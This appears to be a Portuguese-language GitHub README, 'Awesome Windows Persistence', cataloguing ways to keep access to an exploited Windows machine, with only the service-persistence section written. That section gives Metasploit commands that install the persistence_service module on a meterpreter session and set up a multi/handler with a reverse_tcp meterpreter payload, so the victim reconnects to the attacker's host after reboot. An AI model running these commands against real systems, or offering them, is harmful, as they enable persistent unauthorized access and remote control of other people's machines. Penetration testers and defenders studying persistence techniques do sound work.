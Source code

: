 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

**Técnicas e táticas para a manutenção de persistência em um alvo explorado.**

Estarei constantemente atualizando este repositório com novas técnicas!

## Sumário
Técnicas e Táticas
 - Persistence Service(#persistence-service)
 - Persistence Registry
 - Netcat
 - RDP
 - Schtasks
 - Schtasks-Log Events
 - WMIC
 - Wmi-Persistence
 - SharPersist

## Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
 
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**

```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)

- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;

```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```

![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)

**Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.**

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.

![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


## Persistence Registry


## Netcat


## RDP


## Schtasks


## Schtasks - Log Events


## Ficou com alguma dúvida?
Siga-me nas redes sociais para acompanhar meus conteúdos relacionados a Cyber Security e Offensive Hacking ou para tirar dúvidas relacionadas aos artigos!
 - LinkedIn : [Eduardo Maragno](https://www.linkedin.com/in/eduardo-maragno/)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux](https://medium.com/@stux)
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)

